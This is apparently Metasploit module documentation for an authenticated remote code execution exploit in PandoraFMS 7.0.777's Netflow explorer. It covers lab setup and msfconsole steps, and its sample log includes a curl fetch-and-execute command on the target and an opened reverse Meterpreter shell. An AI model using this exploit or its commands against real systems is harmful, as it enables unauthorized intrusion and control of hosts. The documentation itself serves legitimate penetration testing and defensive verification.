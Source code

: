## Vulnerable Application

PandoraFMS offers multiple modules that can be turned on or off with an administrative account.
One of them is Netflow, which is responsible for real-time network monitoring.
It can collect network data and then report or dump it.
Once Netflow is configured, it allows you to perform various tasks, such as viewing and exporting network data.

The Netflow explorer contains a vulnerability when an unsanitized parameter from the Netflow configuration is placed into a string that gets executed using the exec() function.

The PandoraFMS can be installed from [here](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/777/Tarball/):

1. Download vulnerable PandoraFMS
1. Install webserver - Apache2, MySQL, PHP8.2+
1. Disable `strict_mode` in MySQL - `set global sql_mode='';`
1. Following installation steps of PandoraFMS
1. Enable Netflow in PandoraFMS settings
1. Run: `sudo apt install nfdump`


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use linux/http/pandora_fms_auth_netflow_rce`
1. Do: `set rhosts [target IP]`
1. Do: `set lhost  [attacker IP]`
1. Do: `set username  [username]`
1. Do: `set password  [password]`
1. Do: `run`
1. You should get a shell.

## Options


### USERNAME

Login username of existing user.

### PASSWORD

Login password of existing user.

## Scenarios

```
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set rhosts 192.168.168.146
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set PASSWORD pandora
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > set USERNAME admin
msf6 exploit(linux/http/pandora_fms_auth_netflow_rce) > run verbose=true 
[*] Command to run on remote host: curl -so ./khZKmkFYijJ http://192.168.168.128:8080/M1We21fZKyvgtWK9IWStLA;chmod +x ./khZKmkFYijJ;./khZKmkFYijJ&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /M1We21fZKyvgtWK9IWStLA
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] 192.168.168.146:80 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.168.146:80 - Version 7.0.777 detected
[+] 192.168.168.146:80 - The target is vulnerable. Vulnerable PandoraFMS version 7.0.777 detected
[*] Client 192.168.168.146 requested /M1We21fZKyvgtWK9IWStLA
[*] Sending payload to 192.168.168.146 (curl/7.68.0)
[*] Meterpreter session 2 opened (192.168.168.128:4444 -> 192.168.168.146:54980) at 2025-06-25 12:27:52 +0200

meterpreter > sysinfo
Computer     : 192.168.168.146
OS           : Ubuntu 20.04 (Linux 5.15.0-136-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
